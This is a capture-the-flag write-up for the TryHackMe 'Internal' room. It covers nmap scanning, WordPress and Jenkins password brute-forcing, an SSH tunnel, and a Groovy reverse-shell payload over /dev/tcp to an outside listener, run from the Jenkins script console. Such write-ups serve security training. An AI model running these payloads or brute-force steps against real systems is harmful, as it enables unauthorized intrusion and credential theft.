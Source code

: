 ```yaml
---
title: Tryhackme | Internal | 22-07-2023
updated: 2023-07-23 18:07:05Z
created: 2023-07-22 14:41:03Z
categories: [Wordpress]
tags: [ssh tunneling, Jenkins, brute-force]  
---
```


# THM | Internal 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

  - User.txt
  - Root.txt

  Tryhackme Room: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)
 
# Scanning 
## Nmap Scan:
```bash
└─$ nmap -sC -sV -oN nmap.txt 10.10.223.143                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 10:40 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.07% done; ETC: 10:40 (0:00:17 remaining)
Nmap scan report for 10.10.223.143
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.18 seconds
```

### Open Ports:
- 22/tcp ssh
- 80/tcp http

## Port 80 (HTTP)
 We have added the ip to internal.thm in our `/etc/hosts` file. 
And It opens a default apache2 page.

![0e0c0ecb72d1cfa002b6d8d640cb6bc3.png](/Tryhackme/Internal/_resources/0e0c0ecb72d1cfa002b6d8d640cb6bc3.png)

  We will now start the gobuster for finding hidden directories. 
  
![765a3ce1526da8af125720b7f354b796.png](/Tryhackme/Internal/_resources/765a3ce1526da8af125720b7f354b796.png)

 We found `/blog` directory first, so we will open it. 
 
 ![b7b49634886987bd1324814610c79b14.png](/Tryhackme/Internal/_resources/b7b49634886987bd1324814610c79b14.png)
 
 Then, we checked in the source page and found its a wordpress site running version `5.4.2`
 
 ![482875c86db1560e16419fbab2a39205.png](/Tryhackme/Internal/_resources/482875c86db1560e16419fbab2a39205.png)
 
 Now we will check `/wp-admin` page, which is the login page for the wp sites.
 
 ![a9296e2550a71973ede6d1e29a9ca7e7.png](/Tryhackme/Internal/_resources/a9296e2550a71973ede6d1e29a9ca7e7.png)
 
 Next we tried to login with some default credential and found admin username exist.
 We can confirm that by checking the error message returned.
 
 Error message if we have valid username.
 ![c547f3148ad3b8f8135efc178067d3d4.png](/Tryhackme/Internal/_resources/c547f3148ad3b8f8135efc178067d3d4.png)
 
 Error message if user does not exit.
 
 ![2bd2775ac66656409d1a5f457cffa84d.png](/Tryhackme/Internal/_resources/2bd2775ac66656409d1a5f457cffa84d.png)
 
We can also find the username by running the following wpscan command:
```
wpscan --url internal.thm/blog/ -e u
```
 ![79cf1321620a105f12b8eb9047e30681.png](/Tryhackme/Internal/_resources/79cf1321620a105f12b8eb9047e30681.png)
 
 We checked for any vulnerable plugins by this following command, but we didn't found.
```
wpscan --url internal.thm/blog/ -e vp
```

Run wpscan for password cracking with the following command:
```
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin 
```

We have successfully cracked the password:

![bceb4a94df2bbd1a65aa1eea65e95d8e.png](/Tryhackme/Internal/_resources/bceb4a94df2bbd1a65aa1eea65e95d8e.png)

# Initial Access

Now, we have logged in to the wordpress dashboard with the password found above:

![c9dacac26baea8197c99475769ed045d.png](/Tryhackme/Internal/_resources/c9dacac26baea8197c99475769ed045d.png)

Now we will edit the php file of the theme to get reverse shell. In this case, we have edited footer.php

![64a66ddb9e97e23150c0eca9b5a8d3a4.png](/Tryhackme/Internal/_resources/64a66ddb9e97e23150c0eca9b5a8d3a4.png)

We have got the reverse shell.

![7fc213435bd70d2b2242a20838891a3b.png](/Tryhackme/Internal/_resources/7fc213435bd70d2b2242a20838891a3b.png)

We have found the sql database username and password under `/var/www/html`

![6affbc1c49ac74ce613c4ad8790a0487.png](/Tryhackme/Internal/_resources/6affbc1c49ac74ce613c4ad8790a0487.png)

Then, We have found password for the user `aubreanna` in the `/opt folder`

![252872bc580367992c8fd0f4148b3448.png](/Tryhackme/Internal/_resources/252872bc580367992c8fd0f4148b3448.png)

# User Privilege Escalation

We have successfully ssh to the user `aubreanna` with the found password and read the user flag.

![eaafd37d844aa0ffc1467f37ab3c9217.png](/Tryhackme/Internal/_resources/eaafd37d844aa0ffc1467f37ab3c9217.png)

We also found jenkins.txt and it says jenkins server running on `172.17.0.2:8080`

![d0a3e701f6d7a832823f3bafb3326078.png](/Tryhackme/Internal/_resources/d0a3e701f6d7a832823f3bafb3326078.png)

So, we will use ssh tunneling to access this server from local machine using the following command.
```
ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```
We accessed the jenkins login page:

![2b3b657d0b2990844c5e7fc4ef2f281b.png](/Tryhackme/Internal/_resources/2b3b657d0b2990844c5e7fc4ef2f281b.png)

As jenkins default credentials are not working we need to brute force the password.

We have intercepted the login request with burp suite and run the brute force attack and cracked the password for username `admin`

![97251bbe2087edb5d1e7948f0be25ee8.png](/Tryhackme/Internal/_resources/97251bbe2087edb5d1e7948f0be25ee8.png)

# Root Privilege Escalation
Then, we have logged in successfully.
![1c9de55afe9192b7ac856d0317dd3df2.png](/Tryhackme/Internal/_resources/1c9de55afe9192b7ac856d0317dd3df2.png)

Now we will look for uploading reverse shell in jenkins script console. 
Then, we have run the java reverse shell and got the jenkins shell.
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![43eba5b456932a684bc29d5091bf0ead.png](/Tryhackme/Internal/_resources/43eba5b456932a684bc29d5091bf0ead.png)

![e7f9ef6ab4f77d91c5c9c9f0f09be799.png](/Tryhackme/Internal/_resources/e7f9ef6ab4f77d91c5c9c9f0f09be799.png)

In the `/opt` folder we found `note.txt`with root password.

![2e63c4462310ad8c4545286147dd2eee.png](/Tryhackme/Internal/_resources/2e63c4462310ad8c4545286147dd2eee.png)

So, we have `ssh` to the root user of `internal.thm` and got the root flag.

![d925e2718b75e3fd60b43db16ad785d6.png](/Tryhackme/Internal/_resources/d925e2718b75e3fd60b43db16ad785d6.png)

So, we have successfully rooted this machine. 

